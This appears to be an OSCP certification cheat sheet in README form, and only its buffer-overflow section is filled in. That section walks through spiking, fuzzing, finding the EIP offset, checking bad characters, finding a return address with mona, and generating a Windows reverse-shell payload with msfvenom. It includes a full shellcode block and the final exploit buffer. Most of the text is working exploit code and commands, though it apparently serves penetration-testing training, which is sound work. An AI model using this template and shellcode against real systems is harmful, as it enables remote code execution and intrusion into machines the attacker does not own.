 # OSCP_cheatsheet

# Summary
* [General](#General)
* [Buffer Overflow](#Buffer_Overflow)
* [Enumeration](#Enumeration)
* [Exploitation](#Exploitation)
* [Post_Exploitation](#Post_Exploitation)
    * [Local privilege escalation](#Local-privilege-escalation)
         * [Windows](#Windows)
         * [Linux](#Linux)
    * [Lateral Movement](#Lateral-Movement)
    
# General
#### COMMANDO EXAMPLE
```
<COMMANDO>
```
 
# Buffer overflow
To find and exploit a buffer overflow the following steps should be executed:
   1. **Spiking:** Find the vulnerable parameter
   2. **Fuzzing:** Get the amount of bytes the program crashes
   3. **Find the offset:** Get the amount of bytes to write to the EIP
   4. **Overwriting the EIP**
   5. ****Find bad characters:** Run all hex characters through the program
   6. **Finding the right module:** Look for a ddl without memory protections
   7. **Generating shellcode:** To get a reverse shell or to run calc
   
Make sure you got immunity debugger + mona.py installed
   
#### Spiking
1. Take the commands/options/parameters one at a time and send a bunch of data to see if it crashes
2. Use `generic_send_tcp <HOST> <PORT> <SPIKE SCRIPT> 0 0` to send a spike script
```
#EXAMPLE SPIKE SCRIPT
s_readline();
s_string("TRUN ");
s_string_variable("0");
```

#### Fuzzing
1. Get the amount of bytes it crashes the program, the following fuzzing script could be used:

```
#!/usr/bin/python
import sys, socket
from time import sleep

buffer = "A" * 100

while True:
    try:
        print "Fuzzing App with %s bytes" % str(len(buffer))
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect(('<IP>',<PORT>))
                        
        s.send(('<COMMAND>' + buffer))
        s.close()
        sleep(1)
        buffer = buffer + "A"*100
    
    except:
        print "Fuzzing crashed at %s bytes" % str(len(buffer))
        sys.exit()
```

#### Find the offset
1.	Create a offset pattern.

```/usr/share/Metasploit-framework/tools/exploit/pattern_create.rb -l <length>```

```!mona pc <length>```

2.	Edit the script to add the offset pattern.

```
offset = "<OFFSET PATTERN>"

buffer = offset
```
3.	Send the offset pattern and get the EIP value out of the Immunity Debugger.
4. Get the amount of offset bytes.

```/usr/share/Metasploit-framework/tools/exploit/pattern_offset.rb -l <length> -q <EIP VALUE>```

```!mona po <EIP VALUE>```

#### Overwriting the EIP
1. Edit the script, remove the offset variable. Then change the buffer to overwrite the buffer with 4 B's

```
buffer = "A" * <OFFSET BYTES> + "B" * 4
```

2. Execute the script and check if the EIP is overwritten with B's (42424242)

#### Find bad characters
1. Get a list of bad characters
https://bulbsecurity.com/finding-bad-characters-with-immunity-debugger-and-mona-py/
https://github.com/cytopia/badchars
2. Edit the script, change the buffer to send the bad characters

```
badchars = (
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff"
)

buffer = "A" * <OFFSET BYTES> + "B" * 4 + badchars
```

3. Execute the script and right click the ESP, select follow in dump and check all the values to see if any character is missing. (Check the hex dump and look for missing/off hex characters)

#### Finding the right module
1. See all the module by executing `!mona modules` in the Immunity Debugger console.
2. Check all the protection settings (Rebase, SafeSEN, ASLR, NXCompat, OS dll)
3. Look for a vulnerable dll with all falses and write down the .dll
4. Find the upcode equivalant of a jump use `nasm_shell.rb`

```
JMP ESP 
output = \xff\xe4
```

5. Get the return adress `!mona find -s “\xff\xe4” -m <.dll file>`
6. Write down all the return adresses
7. Edit the buffer variable in the script with the return adress (Watch out for little andian for Windows) for the location where 4 * B for the EIP was.

```
buffer = "A" * 2003 +  "<RETURN\ESP ADRESS>"
buffer = "A" * 2003 +  "\xaf\x11\x50\x62" #LITTLE ANDIAN EXAMPLE WITH ADRESS 625011af
```

8. Click on the blue arrow in Immunity Debugger and enter the return adress, hit F2 to mark it blue and set a break point. Check the EIP value. If the EIP value == return/ESP adress we control the EIP

#### Generating shellcode
1. Generate shellcode with msfvenom (reverse shell)

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> EXITFUNC=thread -f c -a x86 -b “<BADCHARS>”
```

2. Add a payload variable to the script in parenthese()
3. Add the payload to the end of the buffer and insert NOPS in-between the return adress and payload

```
payload = (
"\xba\x9f\x88\x46\xeb\xda\xca\xd9\x74\x24\xf4\x5e\x31\xc9\xb1"
"\x52\x31\x56\x12\x83\xee\xfc\x03\xc9\x86\xa4\x1e\x09\x7e\xaa"
"\xe1\xf1\x7f\xcb\x68\x14\x4e\xcb\x0f\x5d\xe1\xfb\x44\x33\x0e"
"\x77\x08\xa7\x85\xf5\x85\xc8\x2e\xb3\xf3\xe7\xaf\xe8\xc0\x66"
"\x2c\xf3\x14\x48\x0d\x3c\x69\x89\x4a\x21\x80\xdb\x03\x2d\x37"
"\xcb\x20\x7b\x84\x60\x7a\x6d\x8c\x95\xcb\x8c\xbd\x08\x47\xd7"
"\x1d\xab\x84\x63\x14\xb3\xc9\x4e\xee\x48\x39\x24\xf1\x98\x73"
"\xc5\x5e\xe5\xbb\x34\x9e\x22\x7b\xa7\xd5\x5a\x7f\x5a\xee\x99"
"\xfd\x80\x7b\x39\xa5\x43\xdb\xe5\x57\x87\xba\x6e\x5b\x6c\xc8"
"\x28\x78\x73\x1d\x43\x84\xf8\xa0\x83\x0c\xba\x86\x07\x54\x18"
"\xa6\x1e\x30\xcf\xd7\x40\x9b\xb0\x7d\x0b\x36\xa4\x0f\x56\x5f"
"\x09\x22\x68\x9f\x05\x35\x1b\xad\x8a\xed\xb3\x9d\x43\x28\x44"
"\xe1\x79\x8c\xda\x1c\x82\xed\xf3\xda\xd6\xbd\x6b\xca\x56\x56"
"\x6b\xf3\x82\xf9\x3b\x5b\x7d\xba\xeb\x1b\x2d\x52\xe1\x93\x12"
"\x42\x0a\x7e\x3b\xe9\xf1\xe9\x84\x46\xf9\x6e\x6c\x95\xf9\x71"
"\xd6\x10\x1f\x1b\x38\x75\x88\xb4\xa1\xdc\x42\x24\x2d\xcb\x2f"
"\x66\xa5\xf8\xd0\x29\x4e\x74\xc2\xde\xbe\xc3\xb8\x49\xc0\xf9"
"\xd4\x16\x53\x66\x24\x50\x48\x31\x73\x35\xbe\x48\x11\xab\x99"
"\xe2\x07\x36\x7f\xcc\x83\xed\xbc\xd3\x0a\x63\xf8\xf7\x1c\xbd"
"\x01\xbc\x48\x11\x54\x6a\x26\xd7\x0e\xdc\x90\x81\xfd\xb6\x74"
"\x57\xce\x08\x02\x58\x1b\xff\xea\xe9\xf2\x46\x15\xc5\x92\x4e"
"\x6e\x3b\x03\xb0\xa5\xff\x23\x53\x6f\x0a\xcc\xca\xfa\xb7\x91"
"\xec\xd1\xf4\xaf\x6e\xd3\x84\x4b\x6e\x96\x81\x10\x28\x4b\xf8"
"\x09\xdd\x6b\xaf\x2a\xf4")

buffer = "A" * 2003 + "<RETURN\ESP ADRESS>" + "\x90" * 32  + payload
```
 
# Enumeration
 
# Exploitation
 
# Post Exploitation
 
## Local privilege escalation
### Windows

### Linux
 
## Lateral movement
